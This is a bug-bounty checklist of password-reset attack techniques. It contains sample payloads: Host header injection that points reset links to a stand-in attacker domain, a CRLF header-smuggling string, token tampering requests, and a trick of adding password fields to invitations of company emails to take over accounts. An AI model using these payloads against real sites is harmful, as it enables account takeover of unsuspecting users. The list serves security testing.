 [ ] a lot of ideas in this article  by **omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```

[ ] Use Your Token on Victims Email
```
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$

```

[ ] Host Header Injection
```
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```

[ ] HTML injection in Host Header
```
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```

[ ] Leakage of Password reset in Referer Header
```
Referrer: https://website.com/reset?token=1234
```


[ ] Using Companies Email
```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips
```

[ ] CRLF in URL
```
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

[ ] HTML injection in Email
```
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```

[ ] Remove token
```
http://example.com/reset?eamil=victims@gmail.com&token=
```

[ ] Change it to 0000
```
http://example.com/reset?eamil=victims@gmail.com&token=0000000000
```

[ ] Use Null Value
```
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil
```

[ ] try an array of old tokens
```
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

[ ] SQLi bypass
```
try sqli bypass and wildcard or, %, *
```

[ ] Request Method / Content Type
```
change request method (get, put, post etc) and/or content type (xml<>json) 
```

[ ] Response Manipulation
```
Replace bad response and replace with good one
```

[ ] Massive Token
```
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string
```

[ ] Crossdomain Token Usage
```
If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.
```
[ ] Leaking Reset Token in Response Body                                                                                                                   
[ ] change 1 char at the begin/end to see if the token is evaluated                                                                                         
[ ] use unicode char jutzu to spoof email address                                                                                                           
[ ] look for race conditions                                                                                                                               
[ ] try to register the same mail with different TLD (.eu,.net etc)                                                                                        
[ ] Password reset link not expiring
[ ] Password reset token leak via response
[ ] No rate limiting on password reset
[ ] User enumeration via Password reset page
[ ] HTML Injection in register/Password reset page
